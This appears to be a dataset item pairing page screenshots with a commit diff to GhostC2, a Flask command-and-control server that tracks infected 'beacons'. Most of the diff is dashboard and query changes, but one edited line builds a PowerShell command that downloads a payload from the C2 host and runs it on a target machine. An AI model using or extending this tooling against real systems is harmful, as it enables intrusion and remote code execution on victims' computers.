

Before and after one commit to wolfwashere/GhostC2, a Flask app: page / in a window 1280 px wide. Shown: the top 428 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in; tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
Enhance dashboard: deduplicate beacons, add modal, and toggle inactive rows

```diff
--- a/server/app.py
+++ b/server/app.py
@@ -118,12 +118,18 @@
 def get_beacon_detail(hostname):
     conn = sqlite3.connect(DB_PATH)
     c = conn.cursor()
-    c.execute("SELECT ip, timestamp, payload FROM beacons WHERE hostname = ? ORDER BY timestamp DESC LIMIT 1", (hostname,))
+
+    # Get the most recent beacon check-in for this host
+    c.execute("SELECT ip, payload, MAX(timestamp) as last_seen FROM beacons WHERE hostname = ?", (hostname,))
     row = c.fetchone()
+
     if not row:
+        conn.close()
         return jsonify({"error": "Beacon not found"}), 404
 
-    ip, timestamp, payload = row
+    ip, payload, last_seen = row
+
+    # Get the last 10 tasks
     c.execute("SELECT command, result FROM tasks WHERE hostname = ? ORDER BY id DESC LIMIT 10", (hostname,))
     tasks = [{"command": cmd, "result": res} for cmd, res in c.fetchall()]
     conn.close()
@@ -131,10 +137,13 @@
     return jsonify({
         "hostname": hostname,
         "ip": ip,
-        "timestamp": timestamp,
+        "timestamp": last_seen,
         "payload": payload,
         "tasks": tasks
     })
+
+
+
 
 @app.route('/add_task', methods=['POST'])
 @login_required
@@ -310,7 +319,7 @@
         file.save(save_path)
 
         ip = request.host.split(':')[0]
-        drop_cmd = f"Invoke-WebRequest http://{ip}/payloads/{filename} -OutFile {filename}; Start-Process {filename}"
+        drop_cmd = f"Invoke-WebRequest {C2_HOST}/payloads/{filename} -OutFile {filename}; Start-Process {filename}"
 
         return render_template("upload.html", success=True, filename=filename, drop_cmd=drop_cmd)
 
--- a/server/templates/dashboard.html
+++ b/server/templates/dashboard.html
@@ -40,6 +40,8 @@
     <a href="/generate" style="color: #0f0; text-decoration: underline; margin-left: 20px;">→ Generate Payload</a>
     <a href="/upload" style="color: #0f0; text-decoration: underline; margin-left: 20px;">→ Upload for File Drop</a>
     <h1>👻 GhostC2 Beacon Dashboard</h1>
+
+    <button id="toggleBtn" onclick="toggleInactive()">Hide Inactive Beacons</button>
 
     <table id="beacon-table">
         <thead>
@@ -108,6 +110,7 @@
     <script>
     let currentBeacon = "";
     let modalOpen = false;
+    let showInactive = true;
 
     async function loadBeacons() {
         const res = await fetch("/api/beacons");
@@ -117,15 +120,19 @@
 
         beacons.forEach(b => {
             const row = document.createElement("tr");
+            let statusClass = "";
             let status;
             if (b.last_seen_seconds < 60) {
                 status = "🟢 Active";
             } else if (b.last_seen_seconds < 300) {
                 status = "🟡 Sleeping";
+                statusClass = "inactive";
             } else {
                 status = "🔴 Dead";
+                statusClass = "inactive";
             }
 
+            row.className = `beacon-row ${statusClass}`;
             row.setAttribute("data-hostname", b.hostname);
             row.onclick = () => showBeaconDetails(b.hostname);
 
@@ -136,8 +143,24 @@
                 <td class="status">${status}</td>
                 <td>${Math.round(b.last_seen_seconds)}s ago</td>
             `;
+
+            if (!showInactive && statusClass === "inactive") {
+                row.style.display = "none";
+            }
+
             body.appendChild(row);
         });
+    }
+
+    function toggleInactive() {
+        showInactive = !showInactive;
+        const rows = document.querySelectorAll(".beacon-row.inactive");
+        rows.forEach(row => {
+            row.style.display = showInactive ? "" : "none";
+        });
+
+        const btn = document.getElementById("toggleBtn");
+        btn.textContent = showInactive ? "Hide Inactive Beacons" : "Show Inactive Beacons";
     }
 
     async function showBeaconDetails(hostname) {
```
